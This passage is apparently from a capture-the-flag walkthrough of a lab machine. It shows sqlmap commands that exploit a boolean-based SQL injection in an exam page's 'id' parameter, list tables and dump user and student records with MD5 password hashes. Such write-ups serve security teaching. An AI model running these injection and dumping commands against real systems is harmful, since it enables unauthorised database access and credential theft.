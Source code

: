 

    oxdf@hacky$ sqlmap -D db_sfms --tables -u 'http://exam.seventeen.htb/?p=take_exam&id=1' -p id --technique B --batch --threads 10
    ...[snip]...        
    Database: db_sfms
    [3 tables]
    +---------+
    | storage |
    | user    |
    | student |
    +---------+
    ...[snip]...



I'll dump the tables. `user` is interesting since I'm trying to log in:



    oxdf@hacky$ sqlmap -D db_sfms -T user --dump -u 'http://exam.seventeen.htb/?p=take_exam&id=1' -p id --technique B --batch --threads 10
    ...[snip]...
    Database: db_sfms
    Table: user
    [3 entries]
    +---------+---------------+---------------+------------------+---------------+----------------------------------+
    | user_id | status        | lastname      | username         | firstname     | password                         |
    +---------+---------------+---------------+------------------+---------------+----------------------------------+
    | 1       | administrator | Administrator | admin            | Administrator | fc8ec7b43523e186a27f46957818391c |
    | 2       | Regular       | Anthony       | UndetectableMark | Mark          | b35e311c80075c4916935cbbbd770cef |
    | 4       | Regular       | Smith         | Stev1992         | Steven        | 112dd9d08abf9dcceec8bc6d3e26b138 |
    +---------+---------------+---------------+------------------+---------------+----------------------------------+
    ...[snip]...



Each user has an MD5 hash as their password. Admin and Mark share their
passwords from ERMS. Still, to log in, I need a student number and a
password, which isn't what's in this table.

The `student` table has what I'm looking for:



    oxdf@hacky$ sqlmap -D db_sfms -T student --dump -u 'http://exam.seventeen.htb/?p=take_exam&id=1' -p id --technique B --batch --threads 10
    ...[snip]...
    Database: db_sfms
    Table: student
    [4 entries]
    +---------+----+--------+---------+----------+----------------------------------------------------+-----------+
    | stud_id | yr | gender | stud_no | lastname | password                                           | firstname |
    +---------+----+--------+---------+----------+----------------------------------------------------+-----------+
    | 1       | 1A | Male   | 12345   | Smith    | 1a40620f9a4ed6cb8d81a1d365559233                   | John      |
    | 2       | 2B | Male   | 23347   | Mille    | abb635c915b0cc296e071e8d76e9060c                   | James     |
    | 3       | 2C | Female | 31234   | Shane    | a2afa567b1efdb42d8966353337d9024 (autodestruction) | Kelly     |